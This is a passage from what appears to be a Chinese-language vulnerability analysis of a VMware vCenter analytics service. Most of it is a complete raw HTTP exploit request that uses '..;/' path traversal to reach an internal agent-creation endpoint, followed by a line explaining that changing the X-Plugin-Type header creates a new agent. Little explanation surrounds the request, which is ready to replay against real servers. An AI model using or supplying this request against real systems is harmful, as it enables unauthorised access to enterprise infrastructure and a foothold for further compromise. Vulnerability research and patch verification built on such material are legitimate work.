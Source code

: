 [![](assets/1704161823-b6356aec9b5c4fed3b48c3cb76fb817c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221011122415-90e857c6-491c-1.png)  
最终请求包

```bash
POST /analytics/ceip/sdk/..;/..;/..;/analytics/ph/api/dataapp/agent?_c=vSphere.vapi.6_7&_i=9D36C850-1612-4EC4-B8DD-50BA239A25BB HTTP/1.1
Host: 192.168.111.11
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: Mozilla/5.0
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/json
X-Deployment-Secret: secret
X-Plugin-Type: test
Content-Length: 354
{"manifestSpec": {"resourceId": "b1", "dataType": "b2", "objectId": "b3", "versionDataType": "b4", "versionObjectId": "b5"}, "objectType": "a1", "collectionTriggerDataNeeded": true, "deploymentDataNeeded": true, "resultNeeded": true, "signalCollectionCompleted": true, "localManifestPath": "a2", "localPayloadPath": "a3", "localObfuscationMapPath": "a4"}
```

通过修改 X-Plugin-Type 即可创建新的 agentId  